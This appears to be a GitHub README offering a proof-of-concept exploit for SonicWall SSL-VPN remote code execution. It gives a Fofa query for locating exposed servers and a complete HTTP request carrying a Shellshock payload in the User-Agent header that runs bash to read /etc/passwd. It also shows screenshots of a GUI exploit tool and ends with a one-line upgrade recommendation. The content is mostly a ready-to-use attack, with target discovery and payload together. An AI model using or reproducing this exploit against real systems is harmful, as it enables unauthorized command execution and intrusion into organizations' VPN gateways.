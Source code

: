 # SonicWall-SSL-VPN-RCE
SonicWall-SSL-VPN-RCE


## Fofa
``` bash
server=="SonicWALL SSL-VPN Web Server"
```

## POC
``` java
GET /cgi-bin/jarrewrite.sh HTTP/1.1
Host: 103.x.x.x:4433
Connection: close
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: () { :; }; echo ; /bin/bash -c 'cat /etc/passwd'
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://103.x.x.x.x:4433/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: AOPortal_103.x.x.x=false; SessURL=https%3A%2F%2F103.x.x.x%3A4433%2Fcgi-bin%2Fwelcome
```
![](https://blog-1259438478.cos.ap-nanjing.myqcloud.com/post-picture1/post-m-1.png)

java的gui版：

![](https://blog-1259438478.cos.ap-nanjing.myqcloud.com/post-picture1/post-m-2.png)
## 修复建议

升级到Sonic SMA 8.0.0.4
